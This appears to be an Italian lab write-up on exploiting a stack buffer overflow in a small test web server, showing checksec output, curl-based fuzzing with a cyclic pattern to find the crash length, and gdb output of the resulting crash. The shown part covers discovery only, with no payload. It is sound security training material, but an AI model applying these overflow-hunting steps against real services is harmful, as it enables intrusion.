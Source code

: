 # Writeup - stack-buffer-overflow - lab1

Tecniche di exploiting base di vulnerabilità Stack Buffer Overflow like 1996.

```
root@283bf557ebdc:/opt# execnoaslr gdb tiny-lab1
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
...
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
gdb-peda$
```
# Discovery

## Fuzzing Manuale

La fase di discovery effettuata tramite il Fuzzing dei parametri ricevuti dal server utilizzando un tool di pattern generation ( https://github.com/rhpco/RHPCOpattern ) risulta utile per identificare il numero di bytes necessari per effettuare overflow.
```
$ curl http://localhost:9999/`python RHPCO-pattern.py generate 500`
File not found%                                                                                
$ curl http://localhost:9999/`python RHPCO-pattern.py generate 550`
curl: (52) Empty reply from server
$ curl http://localhost:9999/`python RHPCO-pattern.py generate 550`

```
- La prima esecuzione risulta ricevere risposta corretta dal webserver.
- La seconda esecuzione risulta ricevere risposta vuota dal webserver indice di mal funzionamento
- La terza esecuzione risulta non ricevere risposta in quanto l'applicazione è risultata andare in Segmentation Fault, dimostrazione dell'avvenuto overflow come mostrato dall'esecuzione del server tramite gdb.

```
root@283bf557ebdc:/opt# execnoaslr gdb tiny-lab1
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
...

gdb-peda$ r
Starting program: /opt/tiny-lab1
listen on port 9999, fd is 3
child pid is 45
[New process 45]
...

[------------------------------------stack-------------------------------------]
0000| 0xffffd320 --> 0xffffd5f8 --> 0xffffd700 --> 0x0
0004| 0xffffd324 --> 0x0
0008| 0xffffd328 --> 0xffffd3f0 ("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"...)
0012| 0xffffd32c --> 0xf7ed20de (<open+62>:     cmp    eax,0xfffff000)
0016| 0xffffd330 --> 0xf7fc2d80 --> 0xfbad2aa4
0020| 0xffffd334 --> 0x804a67a ("accept request, fd is %d, pid is %d\n")
0024| 0xffffd338 --> 0xffffd354 --> 0x0
[----------------------------------registers-----------------------------------]
EAX: 0x22a
EBX: 0x0
```